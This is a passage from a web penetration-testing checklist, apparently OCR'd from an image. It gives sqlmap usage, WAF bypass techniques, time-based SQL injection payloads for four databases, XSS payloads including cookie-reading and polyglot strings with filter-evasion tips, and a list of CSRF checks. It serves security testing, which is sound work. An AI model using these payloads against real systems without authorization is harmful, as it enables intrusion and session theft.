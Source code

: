         - [ ]  Right click and select the option "copy to file"
        - [ ]  Save file as anyname.txt
        - [ ]  SQLmap command to run
        - [ ]  python [sqlmap.py](http://sqlmap.py/) r ~/Desktop/textsqli.txt proxy= [http://127.0.0.1:8080](http://127.0.0.1:8080/)
    - [ ]  Run SQL injection scanner on all requests
    - Bypassing WAF
        - [ ]  Using Null byte before SQL query
        - [ ]  Using SQL inline comment sequence
        - [ ]  URL encoding
        - [ ]  Changing Cases (uppercase/lowercase)
        - [ ]  Use SQLMAP tamper scripts
    - Time Delays
    - Oracle dbms_pipe.receive_message(('a'),10)
    - 
    - Microsoft WAITFOR DELAY '0:0:10'
    - 
    - PostgreSQL SELECT pg_sleep(10)
    - 
    - MySQL SELECT sleep(10)
    - Conditional Delays
    - Oracle SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
    - 
    - Microsoft IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
    - 
    - PostgreSQL SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
    - 
    - MySQL SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
- **Cross-Site Scripting Testing**
    - [ ]  Try XSS using QuickXSS tool by theinfosecguy
    - [ ]  Upload file using '"><img src=x onerror=alert(document.domain)>.txt
    - [ ]  If script tags are banned, use <h1> and other HTML tags
    - [ ]  If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
    - [ ]  if " are filtered then use this payload /><img src=d onerror=confirm(/tushar/);>
    - [ ]  Upload a JavaScript using Image file
    - [ ]  Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
    - Tag attribute value
        - [ ]  Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
        - [ ]  Payload to be inserted -“ onfocus=”alert(document.cookie)"
    - [ ]  Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
    - XSS filter evasion
        - [ ]  < and > can be replace with html entities < and >
        - [ ]  You can try an XSS [polyglot.Eg](http://polyglot.eg/):-javascript:/*></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
    - XSS Firewall Bypass
        - [ ]  Check if the firewall is blocking only lowercase
        - [ ]  Try to break firewall regex with the new line(\r\n)
        - [ ]  Try Double Encoding
        - [ ]  Testing for recursive filters
        - [ ]  Injecting anchor tag without whitespaces
        - [ ]  Try to bypass whitespaces using Bullet
        - [ ]  Try to change request method
- **CSRF Testing**
    - [ ]  Validation of CSRF token depends on request method
    - [ ]  Validation of CSRF token depends on token being present
    - [ ]  CSRF token is not tied to the user session
    - [ ]  CSRF token is tied to a non-session cookie
    - [ ]  Validation of Referer depends on header being present
- **SSO Vulnerabilities**
